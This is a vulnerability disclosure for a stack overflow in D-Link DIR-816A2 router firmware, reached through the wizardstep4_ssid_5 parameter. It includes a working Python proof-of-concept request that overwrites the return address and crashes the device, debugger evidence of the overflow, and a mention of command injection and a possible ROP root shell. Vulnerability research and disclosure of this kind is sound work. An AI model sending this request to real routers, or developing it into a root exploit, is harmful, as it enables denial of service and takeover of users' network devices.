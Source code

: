 # Affected Version

Dlink DIR-816A2\_FWv1.10CNB05.

# Vulnerability Description

Dlink DIR-816A2\_FWv1.10CNB05 was discovered to contain a stack overflow via parameter wizardstep4\_ssid\_5.

# Firmware download address

Manufacturer's address: <https://www.dlink.com/>

Firmware download address: [D-Link Technical Support (dlink.com.cn)](http://www.dlink.com.cn/techsupport/AllPro.aspx)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/1.png?raw=true)

# Vulnerability Details

From the following, we can see that there are two places where our input parameters wizardstep4\_ssid\_2 and wizardstep4\_ssid\_5 are written into v25 respectively, and there is no length limit. Every time we write our parameters to v25, we perform a doSystem operation, which allows for command injection through both parameters, as we mentioned in the previous article.

Here we focus on v19 and v20, which are respectively written into v25 without length restrictions, which can cause stack overflow. Due to repeated writes into a buffer, we have decided to cause overflow when v20 is written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/7.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/8.jpg?raw=true)

# Recurring vulnerabilities and POC

```python
import requests

url = "http://192.168.1.25/goform/dir_setWanWifi"

data = {
    'connecttype':'DHCP',
    'statuscheckpppoeuser':'0',
    'wizardstep4_ssid_2':'123456',
    'wizardstep4_ssid_5':'a'*1000
}

response = requests.post(url,data=data)
```

The following is the result in gdb after sending POC:

Firstly, execute sprintf to write parameter wizardstep4\_ssid\_5 to v25, corresponding to the circled part in IDA:

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/9.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/10.jpg?raw=true)

The result returned by sprintf is 0x3fe, indicating that our parameters were successfully written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/11.jpg?raw=true)

Continuing with the following execution until the function reaches its end, it can be observed that the return address has been overwritten as' aaaa '.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/12.jpg?raw=true)

Continuing to run will cause the program to crash.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/13.jpg?raw=true)

Entering again will result in no response.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/15.png?raw=true)

And you can write your own exp(ROP gadget) to get the root shell.
